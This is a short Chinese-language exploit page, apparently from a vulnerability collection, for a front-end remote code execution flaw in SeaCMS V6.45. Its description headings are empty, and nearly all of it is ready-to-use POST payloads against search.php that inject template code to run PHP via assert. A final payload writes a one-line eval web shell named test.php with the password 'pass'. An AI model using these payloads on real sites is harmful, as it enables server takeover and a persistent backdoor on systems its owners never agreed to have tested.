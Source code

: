 # 海洋CMS seacms V6.45 前台getshell

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程


```bash
http://url/search.php?searchtype=5

POST

searchtype=5&order=}{end if} {if:1)phpinfo();if(1}{end if}
searchtype=5&searchword=d&order=}{end if}{if:1)print_r($_POST[func]($_POST[cmd]));//}{end if}&func=assert&cmd=phpinfo();
```

一句话payload，文件test.php 密码pass:

path:


```bash
http://url/search.php

}{end if}{if:1)print_r($_POST[func]($_POST[cmd]));//}{end if}&func=assert&cmd=fwrite(fopen("test.php","w"),'<?php eval($_POST["pass"]);?>')
```